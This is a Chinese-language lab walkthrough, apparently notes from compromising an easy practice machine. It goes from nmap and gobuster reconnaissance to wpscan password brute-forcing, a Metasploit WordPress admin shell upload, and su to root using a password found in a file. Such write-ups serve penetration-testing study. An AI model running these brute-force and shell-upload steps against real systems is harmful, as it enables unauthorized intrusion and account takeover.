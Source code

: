 > rw signie init=/bin/bash /etc/init.d/networking restart

## 靶机信息
- 级别:容易

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.154

sudo nmap --min-rate 10000 -sT -p- 192.168.1.154 -oA tcp_ports/ports
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds

cat tcp_ports/ports.nmap | grep open | awk -F '/' '{print $1}' | tr '\n\r' ','
//22,53,80,110,139,143,445
```

## Web
![[Pasted image 20231013175441.png]]
### 目录爆破
```shell
gobuster dir -u http://192.168.1.154 -w /usr/share/wordlists/dirb/common.txt -x txt,php
```
![[Pasted image 20231013175750.png]]

## WordPress
#### wpscan
```shell
wpscan --url http://192.168.1.154/wordpress -e ap -e at -e u
```
![[Pasted image 20231013175943.png]]
![[Pasted image 20231013181612.png]]
#### 暴力破解
```shell
wpscan --url http://192.168.1.154/wordpress -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt

 | Username: c0rrupt3d_brain, Password: 24992499

```


## msf及提权
```msfconsole
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set USERNAME
set PASSWORD
set TARGETURI
set RHOSTS
exploit

```
![[Pasted image 20231013183643.png]]
```shell
cat .root_password_ssh.txt
willy26

shell //获取目标命令行shell exit退出

python3 -c "import pty;pty.spawn('/bin/bash')"
su root //passwd:willy26
成功提权
```


![[Pasted image 20231013184007.png]]



